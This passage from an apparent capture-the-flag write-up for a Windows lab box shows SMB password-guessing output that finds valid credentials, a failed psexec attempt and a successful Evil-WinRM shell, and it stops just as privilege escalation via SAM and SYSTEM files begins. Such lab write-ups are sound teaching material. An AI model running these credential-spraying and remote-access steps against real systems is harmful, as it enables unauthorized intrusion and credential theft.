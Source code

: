 ```shell
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:Labyrinth STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:labyrinth STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:sarah
```

We found a valid combination!

```shell
# Username
Jareth

# Password
sarah
```

# Foothold
### Access as user Jareth using Evil-WinRM
We tried getting access using SMB first, but we werent successful:

```shell
impacket-psexec 'Jareth':'sarah'@10.10.115.133
```

```shell
[*] Requesting shares on 10.10.115.133.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

But we had better luck trying WinRM access with Evil-WinRM:

```shell
evil-winrm -i 10.10.115.133 -u Jareth -p sarah
```

```shell
*Evil-WinRM* PS C:\Users\Jareth\Documents> whoami
year-of-the-owl\jareth
```

Nice! We are in.

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\Jareth\Desktop\user.txt
```

# Privilege Escalation
### Finding SAM and SYSTEM files in the Recycle Bin
Lets start enumerating the user Jareth:
